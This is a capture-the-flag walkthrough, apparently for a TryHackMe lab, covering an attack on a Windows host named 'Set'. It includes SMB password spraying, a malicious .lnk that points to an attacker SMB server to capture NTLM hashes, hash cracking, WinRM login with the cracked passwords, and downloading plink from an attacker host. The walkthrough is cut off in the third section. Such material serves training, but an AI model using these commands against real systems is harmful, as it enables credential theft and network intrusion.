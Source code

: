 # [Set](https://tryhackme.com/room/set)

## Once again you find yourself on the internal network of the Windcorp Corporation.

# Set

## Story. Once again you find yourself on the internal network of the Windcorp Corporation. This tasted so good last time you were there, you came back for more. However, they managed to secure the Domain Controller this time, so you need to find another server and on your first scan discovered "Set". Set is used as a platform for developers and has had some problems in the recent past. They had to reset a lot of users and restore backups (maybe you were not the only hacker on their network?). So they decided to make sure all users used proper passwords and closed of some of the loose policies. Can you still find a way in? Are some user more privileged than others? Or some more sloppy? And maybe you need to think outside the box a little bit to circumvent their new security controls…

### Flag 1

1. Start with an nmap scan to identify open services and ports on the target machine

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Attempt a direct connection, then add the hostname to our hosts file

```bash
curl -v -k https://<TARGET_IP>
echo "<TARGET_IP> set.windcorp.thm" >> /etc/hosts
```

[SCREEN02]

3. Examine the search.js function in the `https://set.windcorp.thm/` source code to understand how the application works. The JavaScript reveals that user data is loaded from an XML file, which contains employee information

```bash
curl -k https://set.windcorp.thm/assets/data/users.xml
```

4. Extract usernames from the users.xml file to build a list for potential attacks

```bash
curl -k https://set.windcorp.thm/assets/data/users.xml | grep -o '<email>[^<]*</email>' | sed 's/<[^>]*>//g' | cut -d'@' -f1 | sort | uniq > usernames.txt
```

5. Use Metasploit's SMB login scanner to test common passwords against the discovered usernames
   - Successfully discovered credentials: `myrtleowe:Passw@rd`

```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS <TARGET_IP>
set USER_FILE usernames.txt
set PASS_FILE /root/Tools/wordlists/SecLists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt
run
creds
```

[SCREEN03]

6. Use the discovered credentials to access SMB shares and gather information

```bash
smbclient -L //<TARGET_IP> -U myrtleowe
smbclient //<TARGET_IP>/Files -U myrtleowe
ls
get Info.txt
```

[SCREEN04]

7. Read the downloaded file to obtain the first flag

```bash
cat Info.txt
```

[SCREEN05]

---

### Flag 2

1. Download and use [mslink](https://www.mamachine.org/mslink/index.en.html) tool to create a malicious .lnk file that will capture credentials when opened. The malicious shortcut will attempt to connect to our SMB server when opened

```bash
./mslink_v1.3.sh -l test -n shortcut -i \\\\<ATTACKER_IP>\\share -o shortcut.lnk
zip shortcut.zip shortcut.lnk
```

2. Start an SMB server to capture authentication attempts from the malicious shortcut

```bash
sudo python3 /opt/impacket/examples/smbserver.py -smb2support share .
```

3. Upload the malicious shortcut to the target's file share

```bash
smbclient //<TARGET_IP>/Files -U myrtleowe
put shortcut.zip
```

[SCREEN06]

4. Wait for a user to open the malicious file, capture their NTLM hash, and crack it
   - Successfully captured and cracked: `MichelleWat:!!!MICKEYmouse`

```bash
john hash --wordlist=/root/Tools/wordlists/rockyou.txt
```

[SCREEN07]

5. Use the cracked credentials to gain remote access via WinRM and retrieve the second flag

```bash
evil-winrm -i <TARGET_IP> -u MichelleWat -p '!!!MICKEYmouse'
cd ../Desktop
dir
more Flag2.txt
```

[SCREEN08]

---

### Flag 3

1. Examine running services and network connections to identify potential attack vectors. The output shows unusual ports 49713 and 2805 associated with process ID 5000, indicating a potentially vulnerable service

```bash
netstat -ao
```

[SCREEN09]

2. Identify which process is running on the discovered ports

```bash
Get-Process -Id 5000
```

[SCREEN10]

3. Locate and examine the Veeam ONE Agent service files to understand the application

```bash
Get-ChildItem C:\ -recurse -ErrorAction SilentlyContinue | Where-Object {$_.Name -match "Veeam.One.Agent"}
Get-Item 'C:\Program Files\Veeam\Veeam ONE\Veeam ONE Agent\Veeam.One.Agent.Service.exe' | Format-List *
```

[SCREEN11]

4. Download plink.exe to establish a tunnel for exploiting the identified service

```bash
wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe
python -m SimpleHTTPServer
```

```bash
Invoke-WebRequest -Uri http://<ATTACKER_IP>:8000/plink.exe -Outfile plink.exe
```

